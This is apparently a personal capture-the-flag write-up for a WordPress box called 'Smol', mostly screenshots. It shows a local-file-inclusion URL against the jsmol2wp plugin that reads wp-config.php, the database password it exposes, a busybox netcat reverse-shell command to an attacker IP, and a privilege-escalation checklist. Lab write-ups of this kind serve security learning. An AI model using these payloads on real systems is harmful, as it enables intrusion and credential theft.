 ```yaml
---

title: "Smol"  
date: "2025-4-16"  
thumbnail: "/assets/img/thumbnail/smol.png"

---
```


# Smol
---
**Challenges Difficulty: Medium**  
**Category: Privilege Escalation**

---
## Initial Access

```bash
wpscan --url [http://www.smol.thm](http://www.smol.thm/)
```

![image.png](/assets/img/posts/smol/image%2016.png)

![image.png](/assets/img/posts/smol/image%2017.png)

[http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php](http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php)

![image.png](/assets/img/posts/smol/image%2018.png)

```bash
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```

from the comment section we can get to a log in page

![image.png](/assets/img/posts/smol/image%2019.png)

![image.png](/assets/img/posts/smol/image%2020.png)

![image.png](/assets/img/posts/smol/image%2021.png)

just for fun 😂

![image.png](/assets/img/posts/smol/image%2022.png)

![image.png](/assets/img/posts/smol/image%2023.png)

![image.png](/assets/img/posts/smol/image%2024.png)

![image.png](/assets/img/posts/smol/image%2025.png)

![image.png](/assets/img/posts/smol/image%2026.png)

`busybox nc **10.11.130.37** **4444** -e **sh**`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png](/assets/img/posts/smol/image%2027.png)

![image.png](/assets/img/posts/smol/image%2028.png)

sandiegocalifornia

![image.png](/assets/img/posts/smol/image%2029.png)

- [x]  sudo -l
- [x]  /cat /etc/crontab
- [x]  suid
- [x]  capabilitys

![image.png](/assets/img/posts/smol/image%2030.png)

![image.png](/assets/img/posts/smol/image%2031.png)

![image.png](/assets/img/posts/smol/image%2032.png)

latral movment

![image.png](/assets/img/posts/smol/image%2033.png)

![image.png](/assets/img/posts/smol/image%2034.png)

![image.png](/assets/img/posts/smol/image%2035.png)

![image.png](/assets/img/posts/smol/image%2036.png)

![image.png](/assets/img/posts/smol/image%2037.png)

![image.png](/assets/img/posts/smol/image%2038.png)